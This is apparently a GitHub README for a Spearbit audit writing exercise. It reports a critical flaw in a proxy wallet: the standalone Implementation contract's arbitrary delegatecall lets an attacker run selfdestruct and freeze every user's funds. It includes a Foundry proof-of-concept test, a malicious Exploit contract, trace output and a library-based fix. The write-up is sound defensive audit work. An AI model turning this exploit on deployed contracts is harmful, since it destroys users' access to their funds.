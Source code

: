 # Spearbit Writing Exercise

## Wallet Protocol Business Requirments

You are given an implementation for a smart contract wallet. There are two contracts

1. [`Implementation.sol`](contracts/Implementation.sol): Deployed once and used as implementation contract in `Proxy.sol`.
2. [`Proxy.sol`](contracts/Proxy.sol): Each user has a unique `Proxy` deployment with the above implementation. This is a simply proxy contract which delegatecalls the implementation contract. It has an access control check that allows only the owner to use the fallback function.

The idea is that users can keep their funds, for example, ETH or ERC20 tokens in the Proxy. To use these funds, users can execute arbitrary calls and arbitrary delegatecalls by using the implementation contract (it has `callContract` and `delegatecallContract`). The implementation contract is deployed only once and reused to save gas.

## Implementation deletion causes DoS of users proxy contracts

**Severity:** Critical

**Impact:** 
An attacker could delete the `Implementation` contract deployed for user proxy contracts. All users funds deposited to their `Proxy` contracts could be stuck forever without any option to withdraw.

**Context:** [Implementation.sol#L9-L22](https://github.com/shabarkin/writing-exercise/blob/develop/src/Implementation.sol#L9-L22)

While reviewing the `Proxy` and `Implementation` smart contracts I have observed that `Implementation` contract is defined as a normal deployable smart contract, this allows an attacker to cause the denial of service (DoS) attack for all users of `Proxy` contract.
By application business requirment users should have ability to execute arbitrary `call` and arbitrary `delegatecall` functions by using their `Implementation` contract, however the current architecture implementation has a side affect.

The `delegatecall` function preserves the state of the calling smart contract, but executes logic of the called smart contract/library. In this architecture the `Implementation` smart contract is deployed as independent smart contract, what means that anyone within the Ethereum network could invoke their functions. 

By deploying the malicious smart contract with a function, which defines `selfdestruct` operation, allows an attacker to "selfdelete" the `Implementation` contract. This may happen, because `Implementation.delegatecallContract` function uses `delegatecall` operation on the arbitrary address and arbitrary calldata. It will execute the logic of malicious function within the state of the `Implementation` contract, what means that the `selfdectruct` operation will be executed within the state of `Implementation` contract. 

The DoS attack could be achieved, because there is no way to update the address of `Implementation` of `Proxy` contract or to withdraw user funds. Upon deletion of `Implementation` contract, all users funds holded within `Proxy` contracts will be stuck there forever.

The development and test running were completed with [Foundry](https://book.getfoundry.sh/) framework.


Example of code snippet for the main exploitation business logic: 
```solidity
// Proxy and Implementation contracts deployment
impl = new Implementation();
proxy = new Proxy(address(impl), deployer);

// send funds to deployer account
(bool success,) = deployer.call{value: 1000 ether}("");
if (!success){
    revert("funds are not deposited");
}

// Exploit contract deployment
vm.startPrank(attacker);
exploit = new Exploit();
vm.stopPrank();

// critical: The implementation deletion
vm.startPrank(attacker);

// pack calldata for Exploit contract
bytes memory _calldataExploit = abi.encodeWithSelector(exploit.destroy.selector, attacker);
// delete implementation contract through delegate call on the `selfdestruct`
impl.delegatecallContract(address(exploit), _calldataExploit);

vm.stopPrank();
 ```
 
Example of the check to determine existance of a contract:
 ```solidity
 function _checkContractExistance(address _contract) private view returns (bool){
    uint256 size;
    assembly {
        size := extcodesize(_contract)
    }
    return size != 0;
}
 ```

Example of the malicious smart contract:
```solidity
contract Exploit {
    address immutable public owner = address(0x02);
    address public implementation;

    function destroy(address _to) public {
        selfdestruct(payable(_to));
    }
}
```

Download:
```
git clone https://github.com/shabarkin/writing-exercise.git
```

Execute the exploit test with Foundry:

```bash
forge test -vvvvv
```

Console output:
```log
Running 1 test for test/Proxy.t.sol:SpearbitImplementationDestructTest
[PASS] testImplementationDestruct() (gas: 8337)
Logs:
  Implementation contract exists: false

Traces:
  [490544] SpearbitImplementationDestructTest::setUp() 
    ├─ [123771] → new Implementation@0xCe71065D4017F316EC606Fe4422e11eB2c47c246
    │   └─ ← 618 bytes of code
    ├─ [96860] → new Proxy@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   └─ ← 371 bytes of code
    ├─ [3000] PRECOMPILE::ecrecover{value: 1000000000000000000000}() 
    │   └─ ← 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [55532] → new Exploit@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← 277 bytes of code
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [6233] Implementation::delegatecallContract(Exploit: [0xE536720791A7DaDBeBdBCD8c8546fb0791a11901], 0x00f55d9d0000000000000000000000000000000000000000000000000000000000000002) 
    │   ├─ [5257] Exploit::destroy(0x0000000000000000000000000000000000000002) [delegatecall]
    │   │   └─ ← ()
    │   └─ ← 0x
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

  [8337] SpearbitImplementationDestructTest::testImplementationDestruct() 
    ├─ [0] console::log(Implementation contract exists: %s, false) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 417.42µs
```


**Recommendation:**
Change the context of `Implementation` smart contract from contract to library. Update their functions by removing the `payable` 
modifier.

```diff
- contract Implementation {
+ library Implementation {

-   function callContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function callContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success , bytes memory ret) =  a.call{value: msg.value}(_calldata);
        require(success);
        return ret;
    }

-   function delegatecallContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function delegatecallContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success, bytes memory ret) =  a.delegatecall(_calldata);
        require(success);
        return ret;
    }
}
```

**Fix commit:** [87379dc](https://github.com/shabarkin/writing-exercise/commit/87379dc56ce658334e1dd367020aed16e6cdf0d5)
